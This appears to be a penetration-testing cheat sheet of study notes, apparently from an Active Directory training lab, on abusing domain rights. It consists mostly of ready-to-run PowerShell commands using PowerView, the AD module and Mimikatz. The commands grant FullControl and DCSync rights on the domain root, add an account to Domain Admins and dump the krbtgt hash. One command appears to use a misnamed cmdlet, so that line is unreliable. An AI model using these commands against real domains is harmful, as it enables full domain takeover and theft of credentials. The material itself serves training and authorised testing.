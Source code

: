## Rights Abuse

### General

- Add useful rights to domain user
- With DA privileges we can modify the ACL for the domain root to provide
  - FullControl
  - Ability to run DCSync

### Exploitation

#### FullControl Rights

```powershell
# Using PowerView
Add-Object -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student572 -Rights "All" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -Verbose

# Add new Domain Admin
# Using PowerView_dev
Add-DomainGroupMember -Identity "Domain Admins" -Members testda -Verbose

# Using AD Module
Add-ADGroupMember -Identity "Domain Admins" -Members testda
```

#### DCSync Rights

```powershell
# Confirm if user already has DCSync rights with PowerView
Get-ObjectAcl -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -ResolveGUIDs | ?{ ($_.IdentityReference -match "student572") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match "GenericAll")) }

# Using PowerView
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName "student572" -Rights "DCSync" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -GUIDRight "DCSync" -Verbose

# Execute DCSync to dump hash for krbtgt account
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

#### ResetPassword Rights
